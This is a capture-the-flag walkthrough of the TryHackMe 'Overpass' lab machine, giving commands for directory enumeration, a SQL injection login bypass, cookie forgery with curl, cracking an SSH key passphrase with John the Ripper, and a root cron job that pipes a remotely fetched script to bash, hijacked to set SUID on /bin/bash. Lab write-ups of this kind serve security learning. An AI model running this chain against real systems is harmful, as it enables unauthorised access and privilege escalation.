 ![5](https://github.com/user-attachments/assets/487b0d7a-dc03-410f-b87a-c0197ea38fcc)
![4](https://github.com/user-attachments/assets/dba2eb65-bee6-41b1-bbae-635bc62b6fd4)
![3](https://github.com/user-attachments/assets/846b78e8-07fd-4cc7-bbcf-46d0dbe7db40)
![2](https://github.com/user-attachments/assets/051d2cdf-d3f9-47f8-849f-af509e194fd5)
![1](https://github.com/user-attachments/assets/0f2d046c-e9a7-4146-aaae-c30856ae2e27)
# Overpass CTF Walkthrough

**Author**: Jason Santiago | Date: 10-15-2024

## Introduction
This write-up details the steps taken during the **Overpass CTF** challenge on TryHackMe. The challenge covers web exploitation, privilege escalation via cron jobs, and using reverse shells to gain root access on a target machine.

---

## Reconnaissance

### 1. **Directory Enumeration with Gobuster**

We began with directory enumeration using **Gobuster** to uncover hidden paths on the target web server.

```bash
gobuster dir -u http://10.10.240.73 -w /home/kali/try-hack-me/Overpass/directory-list-2.3-medium.txt
```

After restarting the box, the IP changed to 10.10.234.199.  
Discovered the `/admin/` page.

---

### 2. **Accessing the Admin Page**

Navigating to `http://10.10.234.199/admin/`, we found a login page. Several SQL injection attempts were used to bypass authentication.

**Payload 1**:
```sql
' OR 1=1-- 
```

This bypasses authentication by making the query always true.

---

### 3. **SQLmap for Automated Injection**

**SQLmap** was used to automatically identify injection points:

```bash
sqlmap -u http://10.10.234.199/admin/
```

---

### 4. **Cookie Manipulation with Curl**

We used **Developer Tools (F12)** to inspect how the server handled cookies. By modifying the **SessionToken** cookie, we were able to bypass restrictions on the admin page:

```bash
curl http://10.10.234.199/admin/ --cookie "SessionToken=anything"
```

This granted access to a page that revealed an RSA Private Key.

---

## Privilege Escalation

### 5. **Extracting and Cracking the RSA Private Key**

We downloaded the RSA private key from the admin page and used **John the Ripper** to crack it.

**Convert the RSA key into a format readable by John**:

```bash
python3 /usr/share/john/ssh2john.py id_rsa > forjohn.txt
```

**Crack the passphrase using rockyou.txt**:

```bash
john --wordlist=/home/kali/wordlist/rockyou.txt forjohn.txt
```

Passphrase: `james13`

---

### 6. **SSH Access**

Once the passphrase was cracked, we used the decrypted RSA key to log into the target machine:

```bash
ssh -i id_rsa james@10.10.43.48
```

Enter the passphrase: `james13`

---

### 7. **User Flag**

After gaining SSH access, we retrieved the user flag:

```bash
james@overpass-prod:~$ cat user.txt
thm{65c1aaf000506e56996822c6281e6bf7}
```

---

### 8. **Cron Job Exploitation**

We discovered a cron job that attempts to retrieve and execute a script from **overpass.thm**. By modifying the `/etc/hosts` file, we set up a simple HTTP server to serve the `buildscript.sh` from our Kali machine.

**Cron job content**:
```bash
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

---

### 9. **Setting up the HTTP Server on Kali**

We started a Python HTTP server from the parent directory containing `buildscript.sh`:

```bash
cd ~/try-hack-me/Overpass/cron-hack/
sudo python3 -m http.server 80
```

This allowed the cron job on the target machine to pull the script.

---

### 10. **Crafting the Payload in buildscript.sh**

The payload in `buildscript.sh` was designed to set the SUID bit on `/bin/bash`:

```bash
#!/bin/bash
chmod +s /bin/bash
```

This allows us to escalate privileges and gain root access by running `/bin/bash` with elevated permissions.

---

## Root Access

### 11. **Gaining Root Privileges**

After the cron job executed the payload, we logged back into the machine and checked the SUID bit on `/bin/bash`. Once confirmed, we ran the following command to gain root access:

```bash
/bin/bash -p
```

**Retrieved the root flag**:
```bash
bash-4.4# cat root.txt 
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

---

## Conclusion

The Overpass CTF provided hands-on experience in:

- Web exploitation (SQL injection and cookie manipulation).
- Privilege escalation using cron jobs.
- Utilizing reverse shells for remote access.

By carefully inspecting web vulnerabilities, leveraging tools like **John the Ripper**, and using cron jobs for privilege escalation, we successfully completed the challenge.

---

### Tools Used:

- **Gobuster** for directory brute-forcing.
- **SQLMap** for automated SQL injection.
- **Curl** for web request manipulation and cookie handling.
- **John the Ripper** for password cracking.
- **Netcat** for reverse shell handling.
- **Python HTTP server** for file hosting.

